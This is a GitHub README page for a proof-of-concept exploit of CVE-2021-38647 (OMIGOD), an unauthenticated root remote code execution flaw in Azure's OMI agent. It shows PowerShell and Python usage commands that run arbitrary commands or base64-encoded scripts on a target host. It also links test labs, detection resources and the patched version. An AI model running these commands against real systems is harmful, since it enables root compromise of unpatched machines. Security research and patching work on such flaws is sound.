 # CVE-2021-38647

CVE-2021-38647 - POC to exploit unauthenticated RCE #OMIGOD

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/AlteredSecurity](https://github.com/AlteredSecurity) |
| Url      | [https://github.com/AlteredSecurity/CVE-2021-38647](https://github.com/AlteredSecurity/CVE-2021-38647)                                               |
| Stars    | 60                                                          |
| License  | Other                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-38647

CVE-2021-38647 - POC to exploit unauthenticated RCE `#OMIGOD` on Azure UNIX/Linux VMs!

## Details

In Microsoft's Azure, the OMI application gets installed automatically when services like Azure Automation Accounts, Update Management, Log Analytics, Configuration Management, etc., are used for UNIX/Linux VM's. The OMI application also exposes the service over port 5986 if the Configuration Management service is used for managing the machine remotely. 

Anyone with network access to vulnerable endpoint can send a request that leverages the SCXcore provider without the Authorization header and execute OS commands on the target machine with root privileges!

This vulnerability is now fixed but always worth to check against Linux VMs in Azure.

## Usage

### PowerShell

```
# Execute command on the target machine.
Invoke-CVE-2021-38647 -TargetIP 127.0.0.1 -TargetPort 5986 -Command whoami
```

![](images/poc01.png)

```
# Execute script on the target machine.
$MyScript = @"
id
whoami
uname -a
"@
$enc = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($MyScript))
Invoke-CVE-2021-38647 -TargetIP 1.1.1.1 -TargetPort 5986 -Script $enc
```

![](images/poc02.png)

### Python

```
# Execute command on the target machine.
python CVE-2021-38647.py -t 40.87.92.228 -p 5986 -c id
```

![](images/poc03.png)

```
# Execute script on the target machine.
$MyScript = @"
id
whoami
uname -a
"@
$enc = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($MyScript)) #  For Windows

echo 'id' | base64 # For Linux

python CVE-2021-38647.py -t 40.87.92.228 -s ZWNobyAiIg0KZWNobyAiSGVsbG8iDQplY2hvICJHb29kYnllIg==
```

![](images/poc04.png)

## Deploy Test Environment

ARM Template to deploy on Azure - https://github.com/OTRF/Azure-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-38647-OMI

Deploy without Azure - https://rootsecdev.medium.com/creating-your-own-private-pwn-lab-for-omi-exploitation-b6919fc63956

## Detection & Mitigations

https://techcommunity.microsoft.com/t5/azure-sentinel/hunting-for-omi-vulnerability-exploitation-with-azure-sentinel/ba-p/2764093

To mitigate the vulnerability we need to update OMI agent to version 1.6.8.1 or above.

## Reference Links

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647 

https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure 

https://rootsecdev.medium.com/creating-your-own-private-pwn-lab-for-omi-exploitation-b6919fc63956 

https://techcommunity.microsoft.com/t5/azure-sentinel/hunting-for-omi-vulnerability-exploitation-with-azure-sentinel/ba-p/2764093 

https://github.com/OTRF/Azure-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-38647-OMI

## Blog

https://www.alteredsecurity.com/post/omigod-cve-2021-38647

## Credit

WIZ Team - https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

## Disclaimer

This project is meant for educational purposes only. 
The creator takes no responsibility of any mis-use of this tool.



## Get the content

```
git clone https://github.com/AlteredSecurity/CVE-2021-38647
cd CVE-2021-38647
```

{% embed url="https://github.com/AlteredSecurity/CVE-2021-38647" %}

<figure><img src="https://avatars.githubusercontent.com/u/71595940?v=4" alt=""><figcaption><p>AlteredSecurity</p></figcaption></figure>
